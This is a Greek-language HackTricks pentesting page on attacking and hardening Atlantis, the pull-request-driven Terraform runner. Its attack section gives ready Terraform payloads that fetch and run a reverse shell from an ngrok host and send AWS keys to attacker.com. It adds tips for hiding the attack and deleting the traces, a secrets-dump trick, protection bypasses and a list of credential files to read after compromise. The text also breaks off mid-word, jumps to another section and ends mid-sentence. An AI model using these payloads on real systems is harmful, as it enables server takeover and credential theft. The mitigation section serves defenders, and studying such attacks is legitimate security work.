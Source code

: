 # Ασφάλεια Atlantis

<details>

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Συμμετέχετε** 💬 στην [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Κοινοποιήστε κόλπα χάκερ καταθέτοντας PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Βασικές Πληροφορίες

Το Atlantis βασικά σας βοηθάει να εκτελέσετε το terraform από τα Pull Requests από τον git server σας.

![](<../.gitbook/assets/image (161).png>)

## Τοπικό Εργαστήριο

1. Πηγαίνετε στη **σελίδα κυκλοφορίας του atlantis** στο [https://github.com/runatlantis/atlantis/releases](https://github.com/runatlantis/atlantis/releases) και **κατεβάστε** αυτό που σας ταιριάζει.
2. Δημιουργήστε ένα **προσωπικό τοκεν** (με πρόσβαση στο αποθετήριο) του **github** χρήστη σας
3. Εκτελέστε την εντολή `./atlantis testdrive` και θα δημιουργήσει ένα **demo αποθετήριο** που μπορείτε να χρησιμοποιήσετε για να **επικοινωνήσετε με το atlantis**
1. Μπορείτε να έχετε πρόσβαση στην ιστοσελίδα στη διεύθυνση 127.0.0.1:4141

## Πρόσβαση Atlantis

### Διαπιστευτήρια Εξυπηρετητή Git

Το **Atlantis** υποστηρίζει αρκετούς οικοδεσπότες git όπως το **Github**, το **Gitlab**, το **Bitbucket** και το **Azure DevOps**.\
Ωστόσο, προκειμένου να έχει πρόσβαση στα αποθετήρια σε αυτές τις πλατφόρμες και να εκτελέσει ενέργειες, χρειάζεται να έχει δοθεί κάποια **προνομιούχη πρόσβαση σε αυτά** (τουλάχιστον δικαιώματα εγγραφής).\
[**Τα έγγραφα**](https://www.runatlantis.io/docs/access-credentials.html#create-an-atlantis-user-optional) προτρέπουν να δημιουργήσετε ένα χρήστη σε αυτές τις πλατφόρμες ειδικά για το Atlantis, αλλά μερικοί άνθρωποι ενδέχεται να χρησιμοποιούν προσωπικούς λογαριασμούς.

{% hint style="warning" %}
Σε κάθε περίπτωση, από την οπτική γωνία ενός επιτιθέμενου, ο **λογαριασμός Atlantis** θα είναι πολύ **ενδιαφέρον** **για να διαρρεύσει**.
{% endhint %}

### Webhooks

Το Atlantis χρησιμοποιεί προαιρετικά [**Μυστικά Webhook**](https://www.runatlantis.io/docs/webhook-secrets.html#generating-a-webhook-secret) για να επικυρώσει ότι τα **webhooks** που λαμβάνει από τον Git οικοδεσπότη σας είναι **νόμιμα**.

Ένας τρόπος να επιβεβαιώσετε αυτό θα ήταν να **επιτρέψετε μόνο αιτήσεις να έρχονται από τις IP** του οικοδεσπότη Git σας, αλλά ένας ευκολότερος τρόπος είναι να χρησιμοποιήσετε ένα Μυστικό Webhook.

Σημειώστε ότι εκτός εάν χρησιμοποιείτε έναν ιδιωτικό διακομιστή github ή bitbucket, θα χρειαστεί να εκθέσετε τα σημεία τερματισμού των webhooks στο Διαδίκτυο.

{% hint style="warning" %}
Το Atlantis θα εκθέτει **webhooks** ώστε ο διακομιστής git να μπορεί να του στέλνει πληροφορίες. Από την οπτική γωνία ενός επιτιθέμενου θα ήταν ενδιαφέρον να γνωρίζετε **αν μπορείτε να του στείλετε μηνύματα**.
{% endhint %}

### Διαπιστευτήρια Παροχέα <a href="#provider-credentials" id="provider-credentials"></a>

[Από τα έγγραφα:](https://www.runatlantis.io/docs/provider-credentials.html)

Το Atlantis εκτελεί το Terraform απλά **εκτελώντας τις εντολές `terraform plan` και `apply`** στον διακομιστή **όπου φιλοξενείται το Atlantis**. Όπως όταν εκτελείτε το Terraform τοπικά, το Atlantis χρειάζεται διαπιστευτήρια για τον συγκεκριμένο πάροχό σας.

Είναι δική σας ευθύνη πώς θα [παρέχετε διαπιστευτήρια](https://www.runatlantis.io/docs/provider-credentials.html#aws-specific-info) για τον συγκεκριμένο πάροχό σας στο Atlantis:

* Το Atlantis [Helm Chart](https://www.runatlantis.io/docs/deployment.html#kubernetes-helm-chart) και το [AWS Fargate Module](https://www.runatlantis.io/docs/deployment.html#aws-fargate) έχουν τους δικούς τους μηχανισμούς για τα διαπιστευτήρια του παρόχου. Διαβάστε τα έγγραφά τους.
* Εάν εκτελείτε το Atlantis σε ένα νέφος τότε πολλά νέφη έχουν τρόπους να δίνουν πρόσβαση στο API του νέφους σε εφαρμογές που τρέχουν σε αυτά, π.χ.:
* [Ρόλοι AWS EC2](https://registry.terraform.io/providers/hashicorp/aws/latest/docs) (Αναζήτηση για "Ρόλος EC2")
* [Λογαριασμοί Υπηρεσιών Παράδοσης Παραδειγμάτων GCE](https://registry.terraform.io/providers/hashicorp/google/latest/docs/guides/provider\_reference)
* Πολλοί χρήστες ορίζουν μεταβλητές περιβάλλοντος, π.χ. `AWS_ACCESS_KEY`, εκεί όπου τρέχει το Atlantis.
* Άλλοι δημιουργούν τα απαραίτητα αρχεία ρυθμίσεων, π.χ. `~/.aws/credentials`, εκεί όπου τρέχει το Atlantis.
* Χρησιμοποιήστε τον [Πάροχο HashiCorp Vault](https://registry.terraform.io/providers/hashicorp/vault/latest/docs) για να λάβετε διαπιστευτήρια παρόχου.

{% hint style="warning" %}
Το **δοχείο** όπου **τρέχει** το **Atlantis** πιθανότατα θα περιέχει προνομιούχα διαπιστευτήρια για τους παρόχους (AWS, GCP, Github...) που το Atlantis διαχειρίζεται μέσω Terraform.
{% endhint %}

### Ιστοσελίδα

Από προεπιλογή το Atlantis θα τρέξει μια **ιστοσελίδα στη θύρα 4141 στον τοπικό υπολογιστή**. Αυτή η σελίδα απλώς σάς επιτρέπει να ενεργοποιήσετε/απενεργοποιήσετε την εφαρμογή atlantis και να ελέγξετε την κατάσταση του σχεδίου των αποθετηρίων και να τα ξεκλειδώσετε (δεν επιτρέπει τροποποιήσεις, οπότε δεν είναι τόσο χρήσιμη).

Πιθανότατα δεν θα το βρείτε εκτεθειμένο στο Διαδίκτυο, αλλά φαίνεται ότι προεπιλεγμένα **δεν απαιτούνται διαπιστευτήρια** για να έχετε πρόσβαση (και αν απαιτούνται, τα `atlantis`:`atlantis` είναι τα **προεπιλεγμένα**).

## Ρύθμιση Διακομιστή

Η ρύθμιση του `atlantis server` μπορεί να καθοριστεί μέσω σημαιών γραμμής εντολών, μεταβλητών περιβάλλοντος, ενός αρχείου ρυθμίσεων ή μιας συνδυασμένης χρήσης των τριών.

* Μπορείτε να βρείτε [**εδώ τη λίστα των σημαιών**](https://www.runatlantis.io/docs/server-configuration.html#server-configuration) που υποστηρίζονται από τον διακομιστή Atlantis
* Μπορείτε να βρείτε [**εδώ πώς να μετατρέψετε μια επιλογή ρύθμισης σε μεταβλητή περιβάλλοντος**](https://www.runatlantis.io/docs/server-configuration.html#environment-variables)

Οι τιμ
#### Προστασίες PR

Το Atlantis επιτρέπει να υποδείξετε αν θέλετε το **PR** να είναι **`εγκεκριμένο`** από κάποιον άλλο (ακόμα κι αν αυτό δεν έχει οριστεί στην προστασία κλαδιού) και/ή να είναι **`συγχωνεύσιμο`** (πέρασαν οι προστασίες κλαδιού) **πριν την εκτέλεση της εφαρμογής**. Από προστασίας άποψη, είναι συνιστώμενο να οριστούν και οι δύο επιλογές.

Σε περίπτωση που το `allowed_overrides` είναι True, αυτές οι ρυθμίσεις μπορούν να **αντικατασταθούν σε κάθε έργο από το αρχείο `/atlantis.yml`**.

#### Scripts

Η διαμόρφωση του αποθετηρίου μπορεί να **καθορίσει scripts** που θα εκτελεστούν [**πριν**](https://www.runatlantis.io/docs/pre-workflow-hooks.html#usage) (_pre workflow hooks_) και [**μετά**](https://www.runatlantis.io/docs/post-workflow-hooks.html) (_post workflow hooks_) από την εκτέλεση μιας **ροής εργασιών**.

Δεν υπάρχει καμία επιλογή για να επιτρέπετε τη **καθορισμό** αυτών των scripts στο **αποθετήριο `/atlantis.yml`**.

#### Ροή Εργασιών

Στη διαμόρφωση του αποθετηρίου (διαμόρφωση στην πλευρά του διακομιστή) μπορείτε να [**καθορίσετε μια νέα προεπιλεγμένη ροή εργασιών**](https://www.runatlantis.io/docs/server-side-repo-config.html#change-the-default-atlantis-workflow), ή [**δημιουργήσετε νέες προσαρμοσμένες ροές εργασιών**](https://www.runatlantis.io/docs/custom-workflows.html#custom-workflows)**.** Μπορείτε επίσης να **καθορίσετε** ποια **αποθετήρια** μπορούν να **έχουν πρόσβαση** στις **νέες** που δημιουργήθηκαν.\
Στη συνέχεια, μπορείτε να επιτρέψετε στο αρχείο **atlantis.yaml** κάθε αποθετηρίου να **καθορίσει τη ροή εργασιών που θα χρησιμοποιηθεί.**

{% hint style="danger" %}
Αν η σημαία [**διαμόρφωσης στην πλευρά του διακομιστή**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allow_custom_workflows` είναι ορισμένη σε **True**, οι ροές εργασιών μπορούν να **καθοριστούν** στο αρχείο **`atlantis.yaml`** κάθε αποθετηρίου. Είναι επίσης πιθανόν να απαιτείται ότι το **`allowed_overrides`** καθορίζει επίσης το **`workflow`** για να **αντικαταστήσει τη ροή εργασιών** που θα χρησιμοποιηθεί.\
Αυτό ουσιαστικά θα δώσει **RCE στο διακομιστή Atlantis σε οποιονδήποτε χρήστη μπορεί να έχει πρόσβαση σε αυτό το αποθετήριο**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

#### Έλεγχος Πολιτικής Conftest

Το Atlantis υποστηρίζει την εκτέλεση **server-side** [**conftest**](https://www.conftest.dev/) **πολιτικών** εναντίον της εξόδου του σχεδίου. Συνήθη περιπτώσεις χρήσης για τη χρήση αυτού του βήματος περιλαμβάνουν:

* Απαγόρευση χρήσης μιας λίστας ενοτήτων
* Επιβεβαίωση των χαρακτηριστικών ενός πόρου κατά τη δημιουργία
* Ανίχνευση αθέλητων διαγραφϿν πόρων
* Πρόληψη κινδύνων ασφαλείας (π.χ. αποκάλυψη ασφαλών θυρών στο κοινό)

Μπορείτε να ελέγξετε πώς να το ρυθμίσετε στα [**έγγραφα**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works).

## Εντολές Atlantis

Στα [**έγγραφα**](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis) μπορείτε να βρείτε τις επιλογές που μπορείτε να χρησιμοποιήσετε για την εκτέλεση του Atlantis:
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## Επιθέσεις

{% hint style="warning" %}
Αν κατά την εκμετάλλευση εντοπίσετε αυτό το **σφάλμα**: `Error: Error acquiring the state lock`

Μπορείτε να το διορθώσετε εκτελώντας:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### Σχέδιο RCE του Atlantis - Τροποποίηση ρυθμίσεων σε νέα PR

Εάν έχετε πρόσβαση εγγραφής σε ένα αποθετήριο, θα μπορείτε να δημιουργήσετε ένα νέο κλαδί σε αυτό και να δημιουργήσετε ένα PR. Εάν μπορείτε **να εκτελέσετε `atlantis plan`** (ή ίσως εκτελείται αυτόματα) **θα μπορείτε να εκτελέσετε RCE μέσα στον διακομιστή Atlantis**.

Μπορείτε να το κάνετε αυτό κάνοντας [**το Atlantis να φορτώσει μια εξωτερική πηγή δεδομένων**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source). Απλά τοποθετήστε ένα φορτίο όπως το παρακάτω στο αρχείο `main.tf`:
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Αόρατη Επίθεση

Μπορείτε να εκτελέσετε αυτήν την επίθεση ακόμα και με έναν **αόρατο τρόπο**, ακολουθώντας αυτές τις προτάσεις:

* Αντί να προσθέσετε το rev shell απευθείας στο αρχείο terraform, μπορείτε να **φορτώσετε ένα εξωτερικό πόρο** που περιέχει το rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Μπορείτε να βρείτε τον κώδικα του αντίστροφου κελύφους στο [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* Στο εξωτερικό πόρο, χρησιμοποιήστε το χαρακτηριστικό **ref** για να κρύψετε τον **κώδικα αντίστροφου κελύφους terraform σε ένα κλαδί** μέσα στο αποθετήριο, κάτι τέτοιο: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* **Αντί** να δημιουργήσετε ένα **PR στο master** για να ενεργοποιήσετε το Atlantis, **δημιουργήστε 2 κλαδιά** (test1 και test2) και δημιουργήστε ένα **PR από το ένα στο άλλο**. Όταν ολοκληρώσετε την επίθεση, απλά **αφαιρέστε το PR και τα κλαδιά**.

### Atlantis plan Secrets Dump

Μπορείτε να **απορροφήσετε τα μυστικά που χρησιμοποιούνται από το terraform** εκτελώντας την εντολή `atlantis plan` (`terraform plan`) τοποθετώντας κάτι τέτοιο στο αρχείο terraform:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Εφαρμογή Atlantis RCE - Τροποποίηση ρυθμίσεων σε νέα PR

Εάν έχετε δικαιώματα εγγραφής σε ένα αποθετήριο, θα μπορείτε να δημιουργήσετε ένα νέο κλαδί σε αυτό και να δημιουργήσετε ένα PR. Εάν μπορείτε **να εκτελέσετε `atlantis apply` θα μπορείτε να εκτελέσετε RCE μέσα στον διακομιστή Atlantis**.

Ωστόσο, συνήθως θα χρειαστεί να παρακάμψετε μερικές προστασίες:

* **Δυνατότητα συγχώνευσης**: Εάν αυτή η προστασία είναι ενεργοποιημένη στο Atlantis, μπορείτε να εκτελέσετε **`atlantis apply` μόνο εάν το PR είναι συγχωνεύσιμο** (πράγμα που σημαίνει ότι πρέπει να παρακαμφθεί η προστασία κλαδιού).
* Ελέγξτε πιθανές [**παρακάμψεις προστασίας κλαδιού**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
* **Εγκεκριμένο**: Εάν αυτή η προστασία είναι ενεργοποιημένη στο Atlantis, κάποιος **άλλος χρήστης πρέπει να εγκρίνει το PR** πριν μπορέσετε να εκτελέσετε `atlantis apply`
* Από προεπιλογή μπορείτε να καταχραστείτε το [**διακριτικό Gitbot για να παρακάμψετε αυτήν την προστασία**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)

Εκτέλεση **`terraform apply` σε ένα κακόβουλο αρχείο Terraform με** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Απλά πρέπει να βεβαιωθείτε ότι κάποιο φορτίο όπως τα παρακάτω τελειώνει στο αρχείο `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Ακολουθήστε τις **προτάσεις από την προηγούμενη τεχνική** για να εκτελέσετε αυτήν την επίθεση με έναν **πιο αθόρυβο τρόπο**.

### Εισαγωγή Παραμέτρων Terraform

Κατά την εκτέλεση της εντολής `atlantis plan` ή `atlantis apply`, το terraform εκτελείται υπό-ανάγκες, μπορείτε να περάσετε εντολές στο terraform από το atlantis σχολιάζοντας κάτι σαν:
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
Κάτι που μπορείτε να περάσετε είναι μεταβλητές περιβάλλοντος που μπορεί να βοηθήσουν στην παράκαμψη ορισμένων προστασιών. Ελέγξτε τις μεταβλητές περιβάλλοντος του Terraform στη διεύθυνση [https://www.terraform.io/cli/config/environment-variables](https://www.terraform.io/cli/config/environment-variables)

### Προσαρμοσμένη Ροή Εργασίας

Εκτέλεση **κακόβουλων προσαρμοσμένων εντολών κατασκευής** που καθορίζονται σε ένα αρχείο `atlantis.yaml`. Το Atlantis χρησιμοποιεί το αρχείο `atlantis.yaml` από το κλαδί του αιτήματος ενσωμάτωσης, **όχι** από το `master`.\
Αυτή η δυνατότητα αναφέρθηκε σε προηγούμενη ενότητα:

{% hint style="danger" %}
Εάν η σημαία [**server side config**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allow_custom_workflows` έχει τεθεί σε **True**, οι ροές εργασίας μπορούν να καθοριστούν στο αρχείο **`atlantis.yaml`** κάθε αποθετηρίου. Είναι επίσης πιθανόν να χρειάζεται η **`allowed_overrides`** να καθορίζει επίσης το **`workflow`** για να **αντικαταστήσει τη ροή εργασίας** που θα χρησιμοποιηθεί.

Αυτό ουσιαστικά θα δώσει **RCE στον διακομιστή Atlantis σε οποιονδήποτε χρήστη μπορεί να έχει πρόσβαση σε αυτό το αποθετήριο**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

### Παράκαμψη προστασιών σχεδιασμού/εφαρμογής

Αν η σημαία [**server side config**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allowed_overrides` _έχει_ ρυθμιστεί με `apply_requirements`, είναι δυνατό για ένα αποθετήριο να **τροποποιήσει τις προστασίες σχεδιασμού/εφαρμογής για να τις παρακάμψει**.
```yaml
repos:
- id: /.*/
apply_requirements: []
```
### Απαγωγή PR

Εάν κάποιος στείλει σχόλια **`atlantis plan/apply` στα έγκυρα αιτήματα συγχώνευσής σας,** θα προκαλέσει την εκτέλεση του terraform όταν δεν το επιθυμείτε.

Επιπλέον, αν δεν έχετε ρυθμίσει στη **προστασία κλαδιού** να ζητά να **επαναξιολογεί** κάθε PR όταν γίνεται **νέα υποβολή ενημερώσεων** σε αυτό, κάποιος θα μπορούσε να **γράψει κακόβουλες διαμορφώσεις** (ελέγξτε προηγούμενα σενάρια) στη διαμόρφωση του terraform, να εκτελέσει `atlantis plan/apply` και να κερδίσει RCE.

Αυτή είναι η **ρύθμιση** στις προστασίες κλαδιού του Github:

![](<../.gitbook/assets/image (216).png>)

### Μυστικό Webhook

Αν καταφέρετε να **κλέψετε το μυστικό webhook** που χρησιμοποιείται ή αν **δεν χρησιμοποιείται κανένα μυστικό webhook**, θα μπορούσατε να **καλέσετε το webhook του Atlantis** και να **εκτελέσετε εντολές atlantis** απευθείας.

### Bitbucket

Το Bitbucket Cloud **δεν υποστηρίζει μυστικά webhook**. Αυτό θα μπορούσε να επιτρέψει σε επιτιθέμενους να **πλασάρουν αιτήματα από το Bitbucket**. Βεβαιωθείτε ότι επιτρέπετε μόνο τις διευθύνσεις IP του Bitbucket.

* Αυτό σημαίνει ότι ένας **επιτιθέμενος** θα μπορούσε να κάνει **ψεύτικα αιτήματα στο Atlantis** που φαίνεται ότι προέρχονται από το Bitbucket.
* Εάν καθορίζετε `--repo-allowlist` τότε θα μπορούσαν μόνο να πλασάρουν ψεύτικα αιτήματα που αφορούν αυτά τα αποθετήρια, έτσι η μεγαλύτερη ζημιά που θα μπορούσαν να προκαλέσουν θα ήταν να προγραμματίσουν/εφαρμόσουν στα δικά σας αποθετήρια.
* Για να το αποτρέψετε, επιτρέψτε [τις διευθύνσεις IP του Bitbucket](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html) (δείτε τις εξερχόμενες διευθύνσεις IPv4).

## Μετά την Εκμετάλλευση

Αν καταφέρετε να αποκτήσετε πρόσβαση στον διακομιστή ή τουλάχιστον να έχετε ένα LFI, υπάρχουν μερικά ενδιαφέροντα πράγματα που πρέπει να δοκιμάσετε να διαβάσετε:

* `/home/atlantis/.git-credentials` Περιέχει διαπιστευτήρια πρόσβασης στο vcs
* `/atlantis-data/atlantis.db` Περιέχει διαπιστευτήρια πρόσβασης στο vcs με περισσότερες πληροφορίες
* `/atlantis-data/repos/<org_name>`_`/`_`<repo_name>/<pr_num>/<workspace>/<path_to_dir>/.terraform/terraform.tfstate` Αρχείο κατάστασης terraform
* Παράδειγμα: /atlantis-data/repos/ghOrg\_/\_myRepo/20/default/env/prod/.terraform/terraform.tfstate
* `/proc/1/environ` Μεταβλητές περιβάλλοντος
* `/proc/[2-20]/cmdline` Εντολή γραμμής του `atlantis server` (μπορεί να περιέχει ευαίσθητα δεδομένα)

## Αντιμετωπίσεις

### Μην Χρησιμοποιείτε Σε Δημόσια Αποθετήρια <a href="#don-t-use-on-public-repos" id="don-t-use-on-public-repos"></a>

Επειδή οποιοσδήποτε μπορεί να σχολιάσει σε δημόσια αιτήματα συγχώνευσης, ακόμα και με όλες τις διαθέσιμες αντιμετωπίσεις ασφαλείας, είναι επικίνδυνο να εκτελείτε το Atlantis σε δημόσια αποθετήρια χωρίς τη σωστή ρύθμιση των ρυθμίσεων ασφαλείας.

### Να Μην Χρησιμοποιείτε `--allow-fork-prs` <a href="#don-t-use-allow-fork-prs" id="don-t-use-allow-fork-prs"></a>

Αν εκτελείτε σε ένα δημόσιο αποθετήριο (το οποίο δεν συνιστάται, δείτε παραπάνω) δεν πρέπει να ορίζετε `--allow-fork-prs` (προεπιλογή σε false) επειδή οποιοσδήποτε μπορεί να ανοίξει ένα αίτημα συγχώνευσης από το δικό του αντίγραφο στο αποθετήριό σας.

### `--repo-allowlist` <a href="#repo-allowlist" id="repo-allowlist"></a>

Το Atlantis απαιτεί να καθορίσετε μια λίστα επιτρεπόμενων αποθετηρίων από τα οποία θα δέχεται webhooks μέσω της σημαίας `--repo-allowlist`. Για παράδειγμα:

* Συγκεκριμένα αποθετήρια: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Ολόκληρος ο οργανισμός σας: `--repo-allowlist=github.com/runatlantis/*`
* Κάθε αποθετήριο στην εγκατάσταση σας του GitHub Enterprise: `--repo-allowlist=github.yourcompany.com/*`
* Όλα τα αποθετήρια: `--repo-allowlist=*`. Χρήσιμο για όταν βρίσκεστε σε προστατευμένο δίκτυο αλλά επικίνδυνο χωρίς να ορίσετε επίσης ένα μυστικό webhook.

Αυτή η σημαία εξασφαλίζει ότι η εγκατάστασή σας Atlantis δεν χρησιμοποιείται με αποθετήρια που δεν ελέγχετε. Δείτε `atlantis server --help` για περισσότερες λεπτομέρειες.

### Προστασία Σχεδιασμού Terraform <a href="#protect-terraform-planning" id="protect-terraform-planning"></a>

Αν οι επιτιθέμενοι υποβάλλουν αιτήματα συγχώνευσης με κακόβουλο κώδικα Terraform είναι στο μοντέλο απειλών σας, πρέπει να γνωρίζετε ότι οι εγκρίσεις `terraform apply` δεν είναι αρκετές. Είναι δυνατόν να εκτελεστεί κακόβουλος κώδικας σε ένα `terraform plan` χρησιμοποιώντας τον [εξωτερικό προμηθευτή δεδομένων](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source) ή καθορίζοντας ένα κακόβουλο πάροχο. Αυτός ο κώδικας θα μπορούσε να αποστείλει τα διαπιστευτήριά σας.

Για να το αποτρέψετε, θα μπορούσατε:

1. Να ενσωματώσετε τους παρόχους στην εικόνα ή τον κόμβο του Atlantis και να αρνηθείτε την έξοδο στην παραγωγή.
2. Να εφαρμόσετε το πρωτόκολλο καταχώρησης παρόχων εσωτερικά και να αρνηθείτε τη δημόσια έξοδο, έτσι ελέγχετε ποιος έχει δικαίωμα εγγραφής στον κατάλογο.
3. Να τροποποιήσετε τη [διαμόρφωση αποθετηρίου στην πλευρά του διακομιστή](https://www.runatlantis.io/docs/server-side-repo-config.html) σας για να επικυρώνετε κατά την εκτέλεση του βήματος `plan` τη χρήση απαγορευμένων παρόχων ή πηγών δεδομένων ή PR από μη επιτρεπόμενους χρήστες. Μπορείτε επίσης να προσθέσετε επιπλέον επικύρωση σε αυτό το σημείο, π.χ. απαιτώντας ένα "θετικό σημάδι" στο PR πριν επιτραπεί η συνέχεια του `plan`. Το Conftest θα μπορούσε να είναι χρήσιμο εδώ.

### Μυστικά Webhook <a href="#webhook-secrets" id="webhook-secrets"></a>

Το Atlantis πρέπει να εκτελείται με τα μυστικά webhook που έχουν οριστεί μέσω των μεταβλητών περιβάλλοντος `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET`. Ακόμα και με τη σημαία `--repo-allowlist` ορισμένη, χωρίς ένα μυστικό webhook, οι επιτιθέμενοι θα μπορούσαν να κάνουν αιτήματα στο Atlantis παριστάνοντας ένα αποθετήριο που είναι στη λίστα επιτρ
